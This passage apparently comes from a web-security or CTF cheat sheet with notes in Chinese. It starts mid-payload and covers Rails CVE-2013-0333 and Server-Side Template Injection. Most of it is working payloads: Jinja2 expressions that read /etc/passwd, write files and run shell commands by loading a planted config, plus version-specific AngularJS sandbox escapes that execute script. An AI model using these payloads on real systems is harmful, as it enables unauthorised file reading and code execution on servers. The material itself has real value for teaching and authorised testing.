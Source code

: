       table:  
       :defaults: {}  
    </bingo>

    }.strip
    ```
- CVE-2013-0333
    - Rails 2.3.x和3.0.x中，允許`text/json`的request轉成`YAML`解析
    - `Yaml`在Rails 3.0.x是預設的`JSON Backend`
    - 出問題的地方在於`YAML.load`前的`convert_json_to_yaml`，他不會檢查輸入的JSON是否合法
    - 一樣可以透過`ActionController::Routing::RouteSet::NamedRouteCollection#define_hash_access`的`module_eval`來RCE



# SSTI 

Server-Side Template Injection

![img](https://i.imgur.com/GVZeVq6.png)

## Testing
- ` {{ 7*'7' }}`
    - Twig: `49`
    - Jinja2: `7777777`
- `<%= 7*7 %>`
    - Ruby ERB: `49`

## Flask/Jinja2
- Dump all used classes
    - `{{ ''.__class__.__mro__[2].__subclasses__() }}
`
- Read File
    - `{{}}''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}`
- Write File
    - `{{''.__class__.__mro__[2].__subclasses__()[40]('/var/www/app/a.txt', 'w').write('Kaibro Yo!')}}`
- RCE
    - `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}`
        - evil config
    - `{{ config.from_pyfile('/tmp/evilconfig.cfg') }}`
        - load config
    - `{{ config['RUNCMD']('cat flag',shell=True) }}`

## AngularJS
- v1.6後移除Sandbox
- Payload
    - `{{ 7*7 }}` => 49
    - `{{ this }}`
    - `{{ this.toString() }}`
    - `{{ constructor.toString() }}`
    - `{{ constructor.constructor('alert(1)')() }}` 2.1 v1.0.1-v1.1.5
    - `{{ a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')() }}` 2.1 v1.0.1-v1.1.5
    - `{{ toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)  }}` 2.3 v1.2.19-v1.2.23
    - `{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}` v1.2.24-v1.2.29
    - `{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}` v1.3.20
    - `{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}` v1.4.0-v1.4.9
    - `{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}` v1.5.0-v1.5.8
